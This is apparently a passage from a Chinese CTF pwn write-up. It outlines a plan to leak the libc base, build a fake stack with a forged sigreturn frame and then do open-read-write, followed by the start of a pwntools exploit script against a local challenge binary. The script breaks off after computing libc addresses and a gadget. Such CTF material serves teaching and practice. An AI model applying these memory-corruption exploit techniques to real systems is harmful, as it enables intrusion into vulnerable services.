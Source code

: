 思路：

*   由上面得知，我们可以进行泄露 libc 基地址，所以我们可以获得 orw
*   我们没法进行溢出，但是可以利用伪造的 sigFrame 构造一个 fake\_stack，之后再进行栈溢出
*   进行 orw

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()




ru('gift: ')
puts=int(r(14),16)
leak('puts',puts)

libcbase=puts-libc.symbols['puts']
leak('libcbase',libcbase)

open_addr=libcbase+libc.symbols['open']
leak('open_addr',open_addr)

read_addr=libcbase+libc.symbols['read']
leak('read_addr',read_addr)

write_addr=libcbase+libc.symbols['write']
leak('write_addr',write_addr)

bss=libcbase+libc.bss()
leak('bss',bss)

rdi_ret=libcbase+0x0000000000021112
```